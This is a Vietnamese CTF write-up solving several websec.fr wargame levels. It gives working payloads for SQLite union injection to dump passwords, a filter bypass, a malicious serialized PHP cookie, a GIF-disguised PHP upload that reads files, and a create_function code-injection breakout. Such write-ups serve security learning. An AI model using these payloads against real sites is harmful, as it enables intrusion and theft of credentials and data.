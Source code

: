 ```yaml
---
title: "websec.fr"
author: "mtiennnnn"
tags: wargame
---
```

{% raw %}
# level01

![image](https://user-images.githubusercontent.com/75429369/179963339-bc0671f2-f043-4b12-a74a-3fd5ca44348c.png)

Sqlite3 có query hoàn toàn có thể thực hiện sqli, fuzz số cột thì biết được có 2 cột

```
1 and 1=0 union select sql,sql from sqlite_master -- '
```

![image](https://user-images.githubusercontent.com/75429369/179965358-c36348da-ac37-4f0d-891b-e9f4bb468304.png)

Có password kìa select nó ra với id 1 nào

```
1 and 1=0 union select password,password from users where id = 1 --'
```

![image](https://user-images.githubusercontent.com/75429369/179965685-6e109132-1c56-4b00-9b44-291905d404c7.png)

# level04

Bài cho 2 source code, source thứ nhất có chỗ đáng lưu ý sau

![image](https://user-images.githubusercontent.com/75429369/179966473-82c383f6-4bd9-4dcd-89bf-26e1fca980f9.png)

Kiểm tra có cookie và sẽ unserialize cái cookie đấy. Source thứ hai:

![image](https://user-images.githubusercontent.com/75429369/179966371-845ea550-b87f-4913-8972-ad29b77a98eb.png)

Có function `SQL_query` trỏ vào `$query` có liên kết với source thứ nhất. Với id = 1 thì ta được flag nên giờ chỉ cần select được tới nó là xong, đơn giản chỉ cần modify cái cookie thành serialize của class SQL mà trong đó sẽ có query sqli inject thêm từ query có sẵn trong source (nhớ base64 nữa).

```php
<?php 
class SQL {
  public $query = "SELECT username from users where id=1 UNION SELECT password from users where id=1";
}

$a = new SQL();
echo base64_encode(serialize($a));
?>
```

![image](https://user-images.githubusercontent.com/75429369/179969680-394dcc22-5173-4012-a1b5-cb43b030e870.png)

![image](https://user-images.githubusercontent.com/75429369/179969719-d132c13e-9a11-4ae4-9857-f609ef502872.png)

# level17

Bài này bắt ta nhập biến `flag` sau đó so sánh bằng hàm `strcasecmp` với $flag có sẵn, nếu ra sai thì sẽ cho flag. Có thể tham khảo hàm `strcasecmp` tại [đây](https://www.php.net/manual/en/function.strcasecmp.php)

![image](https://user-images.githubusercontent.com/75429369/179970219-15775230-4cbe-489e-a834-6f7d667d9ee1.png)

Trick để bypass bài này là thay vì nhập $flag là một string thì ta sẽ nhập dưới dạng một array, lúc này kết quả so sánh sẽ trả về `NULL` (tự debug nha)

![image](https://user-images.githubusercontent.com/75429369/179972273-94a3252b-73b0-4ebb-a7d7-a8e305fa332f.png)

# level25

Bài này cho nhập vào một trang muốn include. Đọc source lưu ý chỗ như sau

![image](https://user-images.githubusercontent.com/75429369/179972889-c83b046a-89ab-4f7d-b597-87d1db3aea56.png)

![image](https://user-images.githubusercontent.com/75429369/179972913-5c18ef80-d9cb-4ca4-86e5-2f5a71d5666a.png)

Ban đầu thấy biến `page` tưởng chừng path travelsal nhưng ở bước include nó đã thêm .txt vào đuôi rồi nên ta không thể đi theo hướng này.

Phân tích chỗ parse_url(), trước hết ta phải hiểu nó làm gì đã

![image](https://user-images.githubusercontent.com/75429369/179973464-1814f784-657f-4323-89e2-3c1e6647114e.png)

Vậy thì sau khi parse nó sẽ tạo ra mảng như trên, như trong source code sẽ lấy phần query ra và kiểm tra nếu chứa chữ `flag` thì sẽ báo lỗi.

Ở đây sẽ có nhiều hướng bypass, cách dễ dàng nhất là sử dụng 3 dấu slash, tham khảo thêm ở [đây](https://www.php.net/manual/en/function.parse-url.php) và [đây](https://blog.birost.com/a?ID=01000-ed462190-b4c0-40c0-84bb-0c96dc4be3fb)

![image](https://user-images.githubusercontent.com/75429369/179976647-a03f2616-9579-482a-8a44-7de0114a8a16.png)

Hoặc ta có thể nhập định dạng sai, ở đây mình thêm `:3` vào phía sau (tự debug nhé)

![image](https://user-images.githubusercontent.com/75429369/179977161-ad890710-8f82-463a-a880-d90b740826c8.png)

# level02

Bài này giống y hệt level 01, chỉ khác là sử dụng `preg_replace` để filter các kí tự cho payload sqli

![image](https://user-images.githubusercontent.com/75429369/179978149-ee531064-0cb0-43e9-a6d8-e417cd8e04d4.png)

Bypass chỗ này bằng cách sau

![image](https://user-images.githubusercontent.com/75429369/179978630-983e36d5-e2b7-4da4-876a-22f5fbdc7b8a.png)

Payload thì làm i hệt như level 1

```
1 and 1=0 uniunionon seleselectct password,password frofromm users where id=1 -- '
```

![image](https://user-images.githubusercontent.com/75429369/179978918-23302c26-493c-405a-8256-9d4e5e04902b.png)

# level08

Bài này cho ta upload một file gif, đoạn code kiểm tra file gif như sau

![image](https://user-images.githubusercontent.com/75429369/180018398-20f7a068-91f5-4732-90cf-96a26cf5ac90.png)

Ta thấy code có sử dụng `exif_imagetype`, sau khi tìm hiểu hàm này trên [đây](https://www.php.net/manual/en/function.exif-imagetype.php) thì ta có thể biết rằng hàm chỉ kiểm tra file có phải gif hay không thôi, còn phần body sẽ bị bỏ qua, ta sẽ inject một đoạn code php vào phần body này, và sử dụng magic byte để khi đi qua hàm xử lí thì nó sẽ hiểu file này là gif, tham khảo magic byte [này](https://medium.com/@d.harish008/what-is-a-magic-byte-and-how-to-exploit-1e286da1c198). Payload file như sau

```
GIF87a
<?php echo join(" ",scandir('.')); ?>
```

_Note: ban đầu mình có thử function để chạy code execution luôn mà không được, hình như các function đã bị chặn gần hết, test với payload trên thì được_

![image](https://user-images.githubusercontent.com/75429369/180021542-cc7d87cf-abcb-4459-9cb5-b662697c7da7.png)

```
GIF87a
<?php echo readfile('flag.txt'); ?>
```

![image](https://user-images.githubusercontent.com/75429369/180022117-f4923ddf-38b8-4a1e-9f80-03ac40721061.png)

# level15

Bài này mới vô cho ta declare hàm nào đó với `create_function()`, source lưu ý

![image](https://user-images.githubusercontent.com/75429369/180024889-b10b1bd5-98a2-4bb1-83a7-089e1f7cac45.png)

Ban đầu, mình thử nhập như gợi ý là `echo 1337;` thôi nhưng mà mình quên `;` thì web hiện như sau

![image](https://user-images.githubusercontent.com/75429369/180025271-0f0823d2-faf1-4e0e-85bd-e8276ff4dc49.png)

À há, có nghĩa là ở trước chỗ input này thì lệnh chưa được đóng dấu `;` nên dấu `}` ngay sau đó đã lỗi, vậy thì format theo mình nghĩ sẽ như sau

```
<chỗ mình input> } (đoạn code gì đấy phía sau)
```

Vậy thì chỉ cần nhập input là `;}` để thoát khỏi dấu `}` sau đó nhập đoạn code mình muốn và comment lại đoạn phía sau là được

```
;} echo 1; //
```

![image](https://user-images.githubusercontent.com/75429369/180026065-3a61a8e3-8404-4eb8-ae18-7f4af4db4277.png)

Oke rồi đọc flag thôi

```
;} echo $flag; //
```

![image](https://user-images.githubusercontent.com/75429369/180026326-1762cca4-fb67-4cab-a4d3-c6f20b64a835.png)

Mình có đi tìm thử cách làm khác thì thấy được trang [này](https://www.exploit-db.com/exploits/32417), nghĩa là thằng `create_function` này đã lỗi sẵn :)), php 8. đã bỏ nó.

{% endraw %}











